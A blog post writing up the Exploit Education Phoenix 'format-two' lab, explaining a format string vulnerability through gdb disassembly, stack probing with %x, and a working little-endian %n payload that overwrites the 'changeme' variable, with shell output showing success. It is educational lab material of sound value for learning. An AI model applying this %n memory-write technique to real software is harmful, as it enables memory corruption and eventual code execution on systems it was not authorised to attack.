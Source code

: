 ```yaml
---
layout: post
title: Format Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format-two exercise - format string vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format One Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-one-exercise-writeup.html), Format Two exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Two challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) and quit challenging when exploiting in 64-bit architecture binary.

## Disassemble

Disassembling the code will get you overall idea behind the format-two code, One can use `gdb ./format-two` to start debugging it in runtime.

1. `gdb ./format-two`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x0804852c <+0>:     lea    ecx,[esp+0x4]
   0x08048530 <+4>:     and    esp,0xfffffff0
   0x08048533 <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048536 <+10>:    push   ebp
   0x08048537 <+11>:    mov    ebp,esp
   0x08048539 <+13>:    push   ebx
   0x0804853a <+14>:    push   ecx
   0x0804853b <+15>:    sub    esp,0x100
   0x08048541 <+21>:    mov    ebx,ecx
   0x08048543 <+23>:    sub    esp,0xc
   0x08048546 <+26>:    push   0x8048620
   0x0804854b <+31>:    call   0x8048330 <puts@plt>
   0x08048550 <+36>:    add    esp,0x10
   0x08048553 <+39>:    cmp    DWORD PTR [ebx],0x1
   0x08048556 <+42>:    jle    0x80485a3 <main+119>
   0x08048558 <+44>:    sub    esp,0x4
   0x0804855b <+47>:    push   0x100
   0x08048560 <+52>:    push   0x0
   0x08048562 <+54>:    lea    eax,[ebp-0x108]
   0x08048568 <+60>:    push   eax
   0x08048569 <+61>:    call   0x8048350 <memset@plt>
   0x0804856e <+66>:    add    esp,0x10
   0x08048571 <+69>:    mov    eax,DWORD PTR [ebx+0x4]
   0x08048574 <+72>:    add    eax,0x4
   0x08048577 <+75>:    mov    eax,DWORD PTR [eax]
   0x08048579 <+77>:    sub    esp,0x4
   0x0804857c <+80>:    push   0x100
   0x08048581 <+85>:    push   eax
   0x08048582 <+86>:    lea    eax,[ebp-0x108]
   0x08048588 <+92>:    push   eax
   0x08048589 <+93>:    call   0x8048340 <strncpy@plt>
   0x0804858e <+98>:    add    esp,0x10
   0x08048591 <+101>:   sub    esp,0xc
   0x08048594 <+104>:   lea    eax,[ebp-0x108]
   0x0804859a <+110>:   push   eax
   0x0804859b <+111>:   call   0x8048515 <bounce>
   0x080485a0 <+116>:   add    esp,0x10
   0x080485a3 <+119>:   mov    eax,ds:0x8049868
   0x080485a8 <+124>:   test   eax,eax
   0x080485aa <+126>:   je     0x80485be <main+146>
   0x080485ac <+128>:   sub    esp,0xc
   0x080485af <+131>:   push   0x804866c
   0x080485b4 <+136>:   call   0x8048330 <puts@plt>
   0x080485b9 <+141>:   add    esp,0x10
   0x080485bc <+144>:   jmp    0x80485ce <main+162>
   0x080485be <+146>:   sub    esp,0xc
   0x080485c1 <+149>:   push   0x80486ab
   0x080485c6 <+154>:   call   0x8048330 <puts@plt>
   0x080485cb <+159>:   add    esp,0x10
   0x080485ce <+162>:   sub    esp,0xc
   0x080485d1 <+165>:   push   0x0
   0x080485d3 <+167>:   call   0x8048360 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-two using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. If the program receives an argument from the command line (i.e., argc is greater than 1), it initializes a character array "buf" with size 256 and sets all its values to zero using "memset" function.
3. It then copies the first argument passed (i.e., argv[1]) into the "buf" array using "strncpy" function. If the length of the argument exceeds the size of the buffer (256), it will be truncated.
4. The program then calls the "bounce" function with the "buf" array as an argument.
5. If the "changeme" variable is not zero, it prints "Well done, the 'changeme' variable has been changed correctly!" to the standard output.
6. If the "changeme" variable is zero, it prints "Better luck next time!" to the standard output.
7. The program exits with status code 0.

## Memory Allocation - Exploit Strategy

 If you take closer look at the memory allocation, `changeme` variable it's placed on the stack before `buffer` char array. There is no way you could overflow buffer overflow variable and overwrite `changeme` variable. However, introducing `%n` format modifier string can perform this magic by overwriting the address using `format string vulnerability`. 

 Our first step is to print "AAAA" temporarily and find the padding where it gets stored in the stack memory. We can start our exploration with couple of %x which helps in printing the address of the stack,
 
```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8ca.100.
Better luck next time!
```
Our experiment continues untill we find `AAAA` or 41414141 in the stack and eventually we come to know that it occurs at the 12th padding,

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8a7.100.0.f7f84b67.ffffd700.ffffd6e8.80485a0.ffffd5e0.ffffd8a7.100.3e8.41414141.252e7825.78252e78
Better luck next time!
```

Now that we found the padding, it's time to find the exact memory address of `changeme` variable. For 64-bit binary `format-two` it should be `0x600af0` and 32-bit binary should be `0x08049868`. While performing the exploit, I personally found 64-bit arch challenging due to few reasons discussed in the next section.

So, let's come up with a payload for 32-bit arch format-two binary first,

```shell
$'\x08\x04\x98\x68%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

However, if you take a closer look, most AT&T and Intel system uses [little endian system](https://en.wikipedia.org/wiki/Endianness). So, we might need to rewrite the address in reverse order.

```shell
$'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

## Challenge faced while exploiting 64-bit binary

As mentioned above while going through memory address of `changeme` variable in the stack of 64-bit binary should be `0x600af0` and it contains unreasonable characters 😥 - `\x00` and  `\0a` null character & new line terminator which is interpreted by the `strncpy` function and completely terminates the argument while copying to the buffer.

However, there might be better strategy to overcome this issue by altering environment variables that may push the address or placing the address to the end of the string in payload.

## Exploit

Now, our strategy should be,

1. Input `format string` as `\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n`
2. Now, `printf` overwrites the `changeme` using random address from stack.

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
h�ffffd8ac 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8ac 100 3e8
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` and you may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/elementary-sherlock.jpg)

## Source and Reference:

1. Format Two Exercise: [Exploit Education](https://exploit.education/phoenix/format-two/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
